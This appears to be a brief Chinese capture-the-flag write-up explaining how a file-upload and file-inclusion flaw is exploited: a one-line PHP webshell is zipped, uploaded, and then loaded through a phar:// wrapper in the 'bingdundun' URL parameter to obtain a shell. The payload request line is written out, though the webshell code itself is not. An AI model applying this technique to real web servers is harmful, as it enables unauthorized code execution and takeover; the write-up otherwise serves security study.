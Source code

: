 # 知识点
文件包含<br />文件上传<br />phar协议
# 思路
提示可以上传压缩文件，所以我们可以尝试使用phar伪协议<br />将一句话木马压缩为zip文件<br />上传<br />![image.png](./images/20231018_0001384002.png)<br />很明显这里是一个文件包含点，并且会自动添加.php后缀<br />![image.png](./images/20231018_0001393539.png)
```php
?bingdundun=phar://a262e1025302cd5e46e2c2b288a80d37.zip/shell
```
直接getshell就可以
